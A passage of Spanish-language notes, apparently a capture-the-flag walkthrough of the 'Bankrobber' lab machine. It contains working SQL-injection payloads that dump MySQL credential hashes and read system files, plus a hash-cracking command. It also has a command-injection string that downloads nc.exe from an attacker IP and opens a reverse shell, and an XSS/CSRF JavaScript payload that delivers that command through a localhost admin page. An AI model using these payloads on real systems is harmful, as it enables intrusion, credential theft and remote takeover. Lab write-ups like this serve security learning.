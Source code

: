     S4vi nos adelanta que en la base de datos de bankrobber estan unas credenciales de usuarios, pero que no nos sirben porque ya somos admin.
    miramos por la db mysql

1. Buscamos credenciales

    ```bash
    1' union select 1,group_concat(User,0x3a,Password),3 from mysql.user-- -
    #Output
    1,admin
    1,root:*F435735A173757E57BD36B09048B8B610FF4D0C4
    ```

1. Crackeo de hash con john

    ```bash
    echo "root:*F435735A173757E57BD36B09048B8B610FF4D0C4" > credentials.txt
    john --wordlist=/usr/shar/wordlists/rockyou.txt credentials.txt
    ```

    Vemos que no podemos romper el hash

1. Intentamos leer ficheros

    ```bash
    1' union select 1,load_file("C:\\Windows\\System32\\drivers\\etc\\hosts"),3-- -
    ```

    El fichero `\etc\hosts` no nos interesa en este caso pero hemos podido comprobar si podiamos leer ficheros.


    miramos por el fichero `C:\\xampp\\htdocs\\admin\\backdoorchecker.php` y podemos ver la manera de ejecutar comandos bypasseando los badchars.


La idea aqui seria de ejecutar un comando de typo `cmd=dir|powershell -c "iwr -uri http://10.10.17.51/nc.exe -Outfile %temp%\\nc.exe";%temp%\\nc.exe -e cmd 10.10.17.51 443`.
El problema aqui sigue siendo el echo de no poder lanzar este comando porque no estamos lanzando esta peticion desde el localhost de la maquina victima.


## Vuln exploit & Gaining Access {-}

### De un XSS a un XSRF par conseguir un RCE para ganar accesso al systema{-}

Esto puede funccionar unicamente si el usuario admin que valida las transacciones esta loggeada al panel de administracion desde la propria maquina victima.

Intentamos y miramos.

1. Creamos un ficher pwned.js

    ```javascript
    var request = new XMLHttpRequest();
    params = 'cmd=dir|powershell -c "iwr -uri http://10.10.17.51/nc.exe -Outfile %temp%\\nc.exe";%temp%\\nc.exe -e cmd 10.10.17.51 443';
    request.open('POST', 'http://localhost/admin/backdoorchecker.php', true);
    request.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
    request.send(params);
    ```
